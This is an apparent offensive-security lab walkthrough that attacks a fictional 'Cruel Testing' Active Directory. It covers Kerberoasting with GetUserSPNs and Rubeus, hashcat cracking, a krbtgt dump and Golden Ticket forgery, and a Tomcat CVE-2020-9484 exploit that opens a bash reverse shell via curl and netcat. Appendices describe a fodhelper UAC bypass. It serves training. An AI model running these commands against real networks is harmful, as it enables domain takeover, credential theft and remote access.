
**How to go from owning Garfield's account to become domain admin according to bloodhound**

Garfield is a member of the Helpdesk Support group. This group has the right to do anything to the SVC_SQL service accounts, for example resetting the password! (Do you remember the file we read in Garfields TODOs directory). And to make it better, the SVC_SQL service is a member of the domain admins group! So Garfield could actually reset the password of the SVC_SQL service to one of his choice, and then login with this password and become a domain admin!

This is a dangerous misconfiguration of the Active Directory of Cruel Testing. Unfortunately this type of misconfiguration is relatively comon: Some IT admin installs a new service, has issues with it not working and then gives it excessive privileges and now it works. Help Desk admins do often have access to reset even privileged passwords.

We will now move onto another method of escalating privileges in Active Directory, that does not require misconfigurations.

### Kerberoasting

### Kerberos Brief Intro

(will add stuff here later, with pictures showing kerberos from the attackers perspective)

### Getting and cracking the hashes of the privileged service account

From bloodhound we learned that there is a service account svc_sql that is a member of the domain admins.

We cannow fetch the hashes of the svc_sql account and try to crack them offline. We can do that from garfields (or any domain users's) account since all authenticated domain users can download the TGS (see Kerberos brief info).


From a command shell type
```
proxychains GetUserSPNs.py crueltesting.com/garfield:'catsRCute2026!' -dc-ip 10.0.2.10 -no-rc4 -request -outputfile hashes.kerberoast
```

**Getting the Services we can kerberoast and their hashes**

This should create a file hashes.kerberoast containing the hashes of the service svc-sql password.

But what if we did not know the password of Garfield, maybe because he impolitely refused to give it to us when we asked him via phishing or prompting?

Do not worry, since we have already escalated our privileges to SYSTEM, we can use the machine identity to ask for the hashes of the kerberoastable accounts.

In the sliver console with the privileged session, we will install a "helper" rubeus into our Sliver Armory (collection of weapons). Rubeus is a collection of tools to be used in Active Directory attacks.

```
armory install rubeus
```


Now we can get the hash of the privileged service account without knowing Garfield's password!

In the sliver console, paste

```
rubeus -t 120 kerberoast
```


**Kerberoasting with Rubeus

Note that we have now shown two different paths to acquire the hash of the privileged service account.
- If we have the username/password of any domain user (privileged or not)
- If we do not have any username/password but have escalated our privileges on the target machine

Since we have the hash, we will now try to "crack the hash" to recover the clear text password. Somewhat ironically we will use a tool named "hashcat".

Note: Real life cracking of passwords is performed on powerful machines with GPUs, allowing for bruteforcing millions tries per second. In this lab environment with limited hardware we use a wordlist instead.

From a command shell type

```
hashcat -m 19700 hashes.kerberoast /usr/share/wordlists/rockyou.txt -D 1
```


After some 30 seconds the password should be revealed. We have now cracked the password of svc_sql that is a domain admin!


### Golden Tickets

With the credentials of the svc_sql - who is a member of domain admins - we can now grab the hashes for all users and services of the domain. But one hash is specifically interesting, that is the krbtgt hash, which is used to sign all Kerberos tickets. With this hash we can impersonate any user or service in the domain - even if the password of the user is reset!!!  This is like being able to print our own passports.

Note! This is long term domination of the domain. The intruder will be able to impersonate any user, even if their passwords are changed, forever until the krbtgt is changed. However, krbtgt are not frequently changed. It requires resetting the kerberos service account password (twice!) and doing so will take down AD authentications for some time. So you can bet on this not being done at regular intervals unless there are significant proofs of compromoise.

From a command shell paste the following command

```
proxychains secretsdump.py crueltesting.com/svc_sql:'SQLServer2026!'@10.0.2.10 -just-dc-user krbtgt
```


The output shows the krbtgt hash.

In order to proceed, we now just need to find the SID (security identifier of the domain) , we can use

```
proxychains lookupsid.py dc01.crueltesting.com/svc_sql:'SQLServer2026!'@10.0.2.10
```


(actually we also have learned the SID at an earlier stage by the info command on garfields sliver session that gives the user info including the domain SID. But using lookupsids  command is easier than scrolling up or taking notes...)

Now we create the ticket, using the krbttgt hash and the sid. We will create a ticket for felineadmin who is a domain administrator and has access to everything!
Copy this command into your command shell on evil

```
ticketer.py -aesKey eb31f11533fd623118da514f1a34dc19590e975272717283dcc045c3620d9144 -domain-sid S-1-5-21-65719018-2757245887-2393804531 -domain crueltesting.com felineadmin
```
We save the ticket in the KRB5CCNAME environment variable
```
export KRB5CCNAME=felineadmin.ccache
```


Now we can use smbclient to access the share that we previously had no access to!

From a command shell we paste
```
proxychains smbclient //dc01.crueltesting.com/DomainAdminSecret -k -c 'ls'
```
(add commands to view the content of the secret file on the share, which should give us a password)

## Pivoting to the Internal Kubernetes Infrastructure

With the Active Directory infrastructure completely compromised, we now turn our efforts to the OT environment of Cruel Testing.

We learned from DNS and from the documents on garfields computer that there is a system "tomcat" that has a vulnerability. We also learned about "m2" for mice management that seems really interesting.

### Exploiting the vulnerable TOMCAT server

See if we can reach tomcat.crueltesting.com via our proxy relay

From the shell window on evil type

```
proxychains nc -v -w 3 tomcat.crueltesting.com 80
```


**We can reach tomcat.crueltesting.com

We could now use a scanner to find vulnerabilities. But since we already learned from Garfield's TODO files which the vulnerability is (CVE-2020-9484) , so we could search the internet (or ask AI) for the suitable exploit (provided below free of charge)

On a shell tab execute a netcat listener that listens to incoming connections.

```
nc -nlvp 6666
```

**Netcat listening on port 6666

On a different shell tab, paste the exploit
```
proxychains curl "http://tomcat.crueltesting.com/tomcat_10_and_upper-1.3.0/api.jsp?action=exec&cmd=bash%20-i%20%3E%26%20/dev/tcp/10.0.1.6/6666%200%3E%261"
```


```
env
```

**Tomcat Environment**

We can see that the application is running in a kubernetes cluster. By default, we then have access to any other application in the kubernetes cluster.

"Hacking Cloud Applications" is a separate lab by FelineCyber where you will learn attacking cloud environments such as Kubernetes, but also Azure, AWS environments.


### What about the mice we want to set free?

Never forget Our mission! Our mission was to set our buddies (rats) free!

We know from previous exercises the url, username and password of the Mice Management System used to cruelly torture our friends (rats).

From a firefox browser using the outgoing proxy, access m2.labrats.se.This is the management system for Cruel Testing animal research, here the cruel operators can watch the mice via cameras, feed them with probably dangerous substances, watch their weights going up and down... and more

On evil, open up firefox with proxy settings (remember that we cannot reach m2.crueltesting directly but have to go via proxy)

```
firefox -P "ProxyProfile" --new-instance &
```

But you can login with the stolen credentials: garfield/Lasagna.

**Logging in with garfield stolen credentials**

Logged in as garfield you will see a table of different mice, a camera view and actions you can take on a specific mouse. Like inject it with dangerous substances, feed it... But there is also an option to free the mouse!

Choose the mouse rizzy, and click free.


**Freeing the mouse Rizzy**

The mouse should now be free, ready to roam around in Cruel Testing lab environment and support our cause!

We have accomplished our mission!

## Lab Conclusion

We hope this lab has provided valuable insight into the motivations, mindsets, tools, and techniques of stealthy adversaries.

As demonstrated throughout these modules, modern intruders strive for stealth:
* **Passive Reconnaissance:** They avoid noisy port scans in favor of Open Source Intelligence (OSINT).
* **Identity & Native Protocol Exploitation:** Rather than relying exclusively on zero-day exploits, they leverage human errors, social engineering, and native protocol behavior (such as Kerberos).
* **Living-off-the-Land (LotL):** They utilize built-in operating system binaries and administrative utilities to accomplish their goals without dropping detectable malware.

**Defensive Takeaway:**
There is no single "silver bullet" defense. Endpoint Detection and Response (EDR) agents and Next-Generation Firewalls (NGFW) are vital controls, but they can be bypassed or tunneled through via reverse C2 channels and SOCKS5 proxies. Once inside, an adversary abusing Active Directory trust can elevate privileges to forge arbitrary Kerberos tickets (Golden Tickets) and gain persistent domain control.

---

## Appendix A — Technical Overview of the UAC Bypass

User Account Control (UAC) ensures that standard tasks run without administrative privileges, even when executed by an administrative user. However, certain auto-elevating binaries in Windows can be leveraged to bypass UAC prompts.

In this lab, the UAC bypass leverages **`fodhelper.exe`** (Features on Demand Helper):
1. **Registry Modification:** The script modifies the `HKCU\Software\Classes\ms-settings\Shell\Open\command` registry key to point to our stager payload.
2. **Auto-Elevation:** When `fodhelper.exe` is launched, it executes with high integrity without displaying a UAC prompt and reads the command specified in the hijacked `HKCU` registry structure.
3. **Privilege Elevation:** This allows the attacker to execute payloads at high integrity, enabling post-exploitation activities such as creating persistent system tasks (`schtasks`).

[⬆ Back to Top](#table-of-contents)


---

## Appendix B — Active Directory Fundamentals: The Intruder Perspective

Active Directory (AD) stores information about domain principals (users, computers, and services) and manages permissions across the network. Permissions dictate actions such as creating accounts, resetting passwords, or accessing network shares. Permissions are typically assigned via **security groups**. The most privileged group is **Domain Admins**; compromising an account within this group grants complete control over the Active Directory domain.

Active Directory implements Single Sign-On (SSO) using the **Kerberos** authentication protocol.


*Figure: High-Level Kerberos Authentication Flow*

### The Kerberos Authentication Flow

1. **Authentication (AS-REQ / AS-REP):** A principal logs in and requests a Ticket Granting Ticket (TGT) from the Key Distribution Center (KDC) on the Domain Controller.
2. **TGT Issuance:** The KDC issues a TGT encrypted with the domain's Kerberos service account secret (`krbtgt`). The client caches this TGT locally.
3. **Service Ticket Request (TGS-REQ):** When the client needs to access a specific service (e.g., `svc-sql.crueltesting.com`), it presents its TGT to the KDC and requests a Ticket Granting Service (TGS) ticket for that Service Principal Name (SPN).
4. **TGS Issuance (TGS-REP):** The KDC decrypts the TGT using the `krbtgt` key to verify client identity. It then generates a TGS ticket containing the requesting user's identity and encrypts it using the **password hash of the target service account**.
5. **Service Access (AP-REQ):** The client sends the TGS ticket directly to the target service. The service decrypts the ticket using its own password hash, verifies the user's identity (e.g., `garfield`), and grants access based on configured permissions.

[⬆ Back to Top](#table-of-contents)
---

## Appendix C — Kerberoasting Overview

**Kerberoasting** is a post-exploitation technique where an attacker with any valid, unprivileged domain user account requests a Service Ticket (TGS) for a service account that has a configured Service Principal Name (SPN).

1. **Request TGS:** The attacker requests a TGS for target service accounts (e.g., `svc-sql.crueltesting.com`).
2. **Offline Hash Extraction:** Because the TGS is encrypted using the target service account's password hash, the attacker extracts the ticket directly from memory or network traffic.
3. **Offline Cracking:** The attacker performs password cracking (via wordlists or brute-force) offline on their own system. Because this occurs entirely offline, it generates no additional Active Directory logs.

If the service account uses a weak password, the attacker recovers the cleartext credentials, gaining all permissions assigned to that account.

[⬆ Back to Top](#table-of-contents)
---

## Appendix D — Golden Tickets

If an attacker compromises high-privilege credentials (such as Domain Admin access) or extracts secrets directly from a Domain Controller, they can retrieve the **`krbtgt` account password hash**.

The `krbtgt` hash is used by the KDC to sign and encrypt all TGTs in the domain.


*Figure: Forged Kerberos Golden Ticket Mechanism*

### Impact of a Golden Ticket
* **Complete Identity Impersonation:** Armed with the `krbtgt` hash, an attacker can forge their own valid TGTs (Golden Tickets) offline for **any user**—including non-existent administrative accounts—and grant themselves arbitrary group memberships.
* **Persistence:** Golden Tickets remain valid even if the targeted user changes their password, as validation relies entirely on the signature of the `krbtgt` account key.
* **Remediation Requirement:** Mitigating a Golden Ticket attack requires resetting the `krbtgt` account password **twice** across the entire domain to invalidate existing forged tickets.

[⬆ Back to Top](#table-of-contents)
---


